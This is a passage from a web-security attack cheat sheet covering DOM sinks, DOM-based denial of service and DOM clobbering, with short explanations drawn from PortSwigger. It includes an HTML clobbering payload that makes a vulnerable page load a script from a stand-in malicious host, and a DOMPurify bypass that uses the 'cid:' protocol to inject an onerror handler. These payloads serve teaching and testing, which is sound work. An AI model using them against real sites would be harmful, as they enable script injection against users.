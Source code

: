 ```text
document.implementation.createHTMLDocument()
history.pushState()
history.replaceState()
```

### Denial of Service

From: [https://portswigger.net/web-security/dom-based/denial-of-service](https://portswigger.net/web-security/dom-based/denial-of-service)

#### How

DOM-based denial-of-service vulnerabilities arise when a script passes **attacker-controllable data in an unsafe way to a problematic platform API**, such as an API whose invocation can cause the user's computer to consume **excessive amounts of CPU or disk space**. This may result in side effects if the browser restricts the functionality of the website, for example, by rejecting attempts to store data in `localStorage` or killing busy scripts.

#### Sinks

```text
requestFileSystem()
RegExp()
```

## **DOM Clobbering**

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```python
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`

Injecting that data `window.someObject.url` is going to be `href=//malicious-website.com/malicious.js`

**Trick**: `DOMPurify` allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">` will make the HTML encoded `&quot;` to be **decoded on runtime** and **escape** from the attribute value to **create** the **`onerror`** event.
